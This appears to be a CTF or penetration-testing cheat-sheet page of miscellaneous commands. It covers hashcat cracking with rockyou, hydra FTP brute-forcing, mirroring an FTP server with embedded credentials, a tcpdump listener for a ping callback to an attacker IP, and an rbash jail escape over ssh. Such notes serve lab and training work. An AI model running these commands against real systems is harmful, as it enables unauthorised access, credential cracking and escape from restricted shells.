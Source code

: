 # Miscellaneous

hashcat -a 0 -m 500 hash /root/Downloads/rockyou.txt --force

scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt

wget -m ftp://ftpuser:givemefiles777@10.10.94.48

python -m pyftpdlib 21\
\
hydra -e nsr -l elly ftp://192.168.249.148\


{% embed url="https://github.com/PinkDraconian/CTF-bash-tools" %}

### TCPDUMP LISTENER

Start a tcpdump listener on your local machine.

**If using your own machine with the VPN connection, use:**

* `sudo tcpdump ip proto \\icmp -i tun0`

**If using the Ethernet, use:**

* `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

**ping \<ATTACKER IP> -c 4**

****

If we know the  ssh credentials of the user who is part of rbash shell, then you can use the following command along ssh to break the jail and bypass the rbash by accessing proper bash shell.

`ssh seppuku@192.168.53.90 -t "bash --noprofile"`

